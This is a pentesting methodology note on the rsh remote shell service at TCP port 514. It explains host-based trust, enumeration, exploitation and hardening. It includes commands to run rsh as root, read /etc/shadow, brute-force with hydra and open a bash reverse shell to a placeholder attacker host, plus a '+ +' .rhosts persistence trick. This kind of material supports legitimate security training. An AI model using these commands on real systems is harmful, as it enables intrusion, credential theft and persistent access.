

# 38 - rsh (Port 514) Pentesting

## 1. Executive Summary

rsh ("remote shell") on **TCP 514** executes a single command (or opens a shell) on a remote host using the same **host-based trust** as rlogin — `.rhosts` and `/etc/hosts.equiv`. Authentication rests entirely on source **IP address + username**, both trivially **spoofable** on a local network, and the channel is unencrypted. Where trust is misconfigured, rsh gives passwordless command execution; where it isn't, IP spoofing or credential reuse often still gets you in.

## 2. Protocol Overview & Architecture

`rshd` checks the client's IP/username against trust files; if trusted it runs the requested command with that user's privileges — no password. Because trust is IP/DNS based and `.rhosts` frequently sits on NFS-mounted home directories, both spoofing and NFS tampering defeat it.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p514 <IP>
# Post-foothold: hunt trust files
find / -name .rhosts 2>/dev/null; cat /etc/hosts.equiv
```

## 4. Exploitation Deep Dive

### 4.1 Trust Abuse — Command Execution
```bash
rsh <IP> -l root "id"
rsh -l <user> <IP> "cat /etc/shadow"
rsh <IP> "bash -i >& /dev/tcp/<ATT>/4444 0>&1"   # reverse shell if trusted
```

### 4.2 IP Spoofing
Since trust is IP-based, spoofing a trusted source address (on the same segment) can satisfy `hosts.equiv` without any credentials.

### 4.3 Brute Force
```bash
hydra -L users.txt -P pass.txt rsh://<IP>
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Passwordless RCE as a trusted user → host compromise.
- Add `+ +` to a writable `.rhosts` for persistence.

## 7. Defense & Hardening
1. **Disable rsh/rexec/rlogin**; migrate to SSH.
2. Delete `.rhosts` / `hosts.equiv`; never use IP-based trust.
3. Firewall 512-514; anti-spoofing on the LAN.

## 8. Chaining Opportunities
- NFS-writable home → plant `.rhosts` → RCE. See **[[25 - NFS (Port 2049) Pentesting]]**.
- RCE → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[37 - rlogin (Port 513) Pentesting]]
- [[39 - rexec (Port 512) Pentesting]]

## 10. Tools
`rsh`/`rcmd`, `hydra`, packet-spoofing tools.
